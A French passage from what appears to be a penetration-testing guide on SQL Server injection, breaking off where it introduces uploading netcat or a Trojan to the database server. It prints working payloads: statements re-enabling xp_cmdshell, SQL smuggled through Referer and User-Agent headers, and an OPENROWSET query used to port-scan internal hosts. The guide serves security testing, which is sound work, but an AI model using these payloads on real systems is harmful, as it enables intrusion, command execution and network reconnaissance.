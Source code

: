 Ce code, écrit par Antonin Foller (voir les liens au bas de la page), crée un nouveau `xp_cmdshell` en utilisant `sp_oacreate`, `sp_oamethod` et `sp_oadestroy` (tant qu'ils n'ont pas été désactivés aussi, bien sûr ). Avant de l'utiliser, nous devons supprimer le premier `xp_cmdshell` que nous avons créé (même s'il ne fonctionnait pas), sinon les deux déclarations entreront en collision.

Sur SQL Server 2005, `xp_cmdshell` peut être activé en injectant le code suivant à la place :

```sql
master..sp_configure 'show advanced options',1
reconfigure
master..sp_configure 'xp_cmdshell',1
reconfigure
```

### Exemple 6 : Referer / User-Agent

L'en-tête `REFERER` est défini sur :

`Referer: https://vulnerable.web.app/login.aspx', 'user_agent', 'some_ip'); [SQL CODE]--`

Permet l'exécution de code SQL arbitraire. La même chose se produit avec l'en-tête User-Agent défini sur :

`User-Agent: user_agent', 'some_ip'); [SQL CODE]--`

### Exemple 7 : SQL Server en tant qu'analyseur de ports

Dans SQL Server, l'une des commandes les plus utiles (au moins pour le testeur d'intrusion) est OPENROWSET, qui est utilisée pour exécuter une requête sur un autre serveur de base de données et récupérer les résultats. Le testeur d'intrusion peut utiliser cette commande pour scanner les ports d'autres machines du réseau cible, en injectant la requête suivante :

`select * from OPENROWSET('SQLOLEDB','uid=sa;pwd=foobar;Network=DBMSSOCN;Address=x.y.w.z,p;timeout=5','select 1')--`

Cette requête va tenter une connexion à l'adresse x.y.w.z sur le port p. Si le port est fermé, le message suivant sera renvoyé :

`SQL Server does not exist or access denied`

En revanche, si le port est ouvert, l'une des erreurs suivantes sera renvoyée :

`General network error. Check your network documentation`

`OLE DB provider 'sqloledb' reported an error. The provider did not give any information about the error.`

Bien sûr, le message d'erreur n'est pas toujours disponible. Si c'est le cas, on peut utiliser le temps de réponse pour comprendre ce qui se passe : avec un port fermé, le timeout (5 secondes dans cet exemple) sera consommé, alors qu'un port ouvert renverra le résultat tout de suite.

Gardez à l'esprit que OPENROWSET est activé par défaut dans SQL Server 2000 mais désactivé dans SQL Server 2005.

### Exemple 8 : téléchargement d'exécutables

Une fois que nous pouvons utiliser `xp_cmdshell` (natif ou personnalisé), nous pouvons facilement télécharger des exécutables sur le serveur de base de données cible. Un choix très courant est `netcat.exe`, mais tout cheval de Troie sera utile ici. Si la cible est autorisée à démarrer des connexions FTP vers la machine du testeur, il suffit d'injecter les requêtes suivantes :
